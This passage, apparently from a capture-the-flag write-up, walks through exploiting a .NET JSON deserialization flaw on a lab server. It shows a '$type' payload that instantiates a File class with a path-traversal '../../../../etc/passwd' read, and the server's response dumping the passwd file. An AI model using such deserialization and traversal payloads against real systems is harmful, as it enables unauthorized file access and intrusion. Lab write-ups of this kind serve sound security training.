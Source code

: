 ```

{
	"RemoveOrder": {
		"$type": "bagel_server.File, bagel"
        "ReadFile": "../../../../etc/passwd"
	}
}

```

The Namespace is what I noted [above](#overview), and the ClassName is the class with the object. The AssemblyName I’ll get from PowerShell:

```

PS > [System.Reflection.AssemblyName]::GetAssemblyName('Z:\bagel.dll')

Version        Name
-------        ----
1.0.0.0        bagel

```

This diagram shows how this payload is processed by the server:

[![image-20230531134205700](/img/image-20230531134205700.png)*Click for full size image*](/img/image-20230531134205700.png)

#### POC

To test this, I’ll get rid of the white space to get it on one line, and send:

```

> {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../etc/passwd"}}
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "4:21:03",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\ngames:x:12:100:games:/usr/games:/sbin/nologin\nftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\nnobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin\ndbus:x:81:81:System message bus:/:/sbin/nologin\ntss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin\nsystemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin\nsystemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin\nsystemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin\npolkitd:x:998:997:User for polkitd:/:/sbin/nologin\nrpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin\nabrt:x:173:173::/etc/abrt:/sbin/nologin\nsetroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin\ncockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin\ncockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin\nrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\nsshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin\nchrony:x:994:992::/var/lib/chrony:/sbin/nologin\ndnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\nsystemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin\nsystemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin\ndeveloper:x:1000:1000::/home/developer:/bin/bash\nphil:x:1001:1001::/home/phil:/bin/bash\n_laurel:x:987:987::/var/log/laurel:/bin/false",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}

```